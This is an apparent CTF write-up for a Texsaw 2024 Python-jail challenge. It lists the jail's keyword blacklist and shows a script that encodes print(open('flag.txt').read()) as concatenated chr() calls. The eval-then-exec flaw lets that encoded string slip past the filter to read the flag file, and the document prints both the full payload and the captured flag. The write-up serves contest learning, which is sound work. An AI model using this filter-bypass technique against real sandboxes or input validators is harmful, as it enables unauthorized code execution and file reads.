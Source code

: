 ```yaml
---
layout: writeup
category: Texsaw-CTF-2024
chall_description:
points: 200
solves: -1
tags: misc pyjail
date: 2024-3-25
comments: false
---
```


You've been locked in the worst prison imaginable: one without any meatballs! To escape the prison, you must read the flag using Python!  

`nc 3.23.56.243 9011`  

---

After playing around with it a bit, and getting various errors, here's what I got:  

```
blacklist: import, dir, print, open, ', ", os, sys, _, eval, exec, =, [, ]

prohibited actions:
    function calls without parameters, i.e. '()'

code fragments:
    inp = eval(inp)
    inp = inp.replace("print", "stdout.write")
    out = exec(inp)
```

The code fragments are the most important here. Notably, the input is evaluated first before it is executed... let's test if a function like chr() works.  

Turns out, it does! That means we can just write every character as a chr(some number), which will allows us to print the file. Here's a little script that helps us write our payload:  

```py
payload = 'print(open("flag.txt","r").read())'
for i in payload:
    print(f'chr({ord(i)})+', end='')
```

And here's our final payload:  

```
chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(34)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(34)+chr(44)+chr(34)+chr(114)+chr(34)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41)+chr(41)
```

    texsaw{SP4P3GGY_4ND_M34TBA11S_aa17c6d30ee3942d}